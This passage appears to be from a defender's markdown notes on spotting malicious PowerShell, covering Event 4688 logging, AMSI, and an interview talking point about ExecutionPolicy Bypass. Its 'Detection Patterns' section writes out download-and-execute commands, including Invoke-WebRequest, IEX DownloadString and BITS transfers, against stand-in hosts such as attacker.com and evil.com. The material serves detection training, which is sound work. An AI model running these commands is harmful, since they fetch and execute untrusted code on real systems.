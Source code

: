 \- \*\*Event ID 4688:\*\* Logs full command line with ExecutionPolicy flag visible

\- \*\*AMSI:\*\* Inspects PowerShell script content at runtime



\*\*Interview Talking Point:\*\*  

"I clarified in my incident investigation that ExecutionPolicy Bypass is often misunderstood. It only affects PowerShell's script signing policy, not security controls. This is why command-line logging via Event 4688 is critical - it captures the full execution context regardless of ExecutionPolicy settings."



---



\## 📊 Detection Patterns



\### High-Risk Command Patterns



\*\*Pattern 1: Direct File Download\*\*

```powershell

powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri 'http://malicious.com/payload.exe' -OutFile 'C:\\temp\\malware.exe'"

```



\*\*Pattern 2: In-Memory Execution (IEX)\*\*

```powershell

powershell.exe -Command "IEX (New-Object Net.WebClient).DownloadString('http://attacker.com/script.ps1')"

```



\*\*Pattern 3: Encoded Command\*\*

```powershell

powershell.exe -EncodedCommand <Base64String>

```

\*Note: Requires decoding to inspect actual command\*



\*\*Pattern 4: BITS Transfer (Stealthy)\*\*

```powershell

Import-Module BitsTransfer; Start-BitsTransfer -Source "http://evil.com/payload" -Destination "C:\\temp\\file.exe"

```
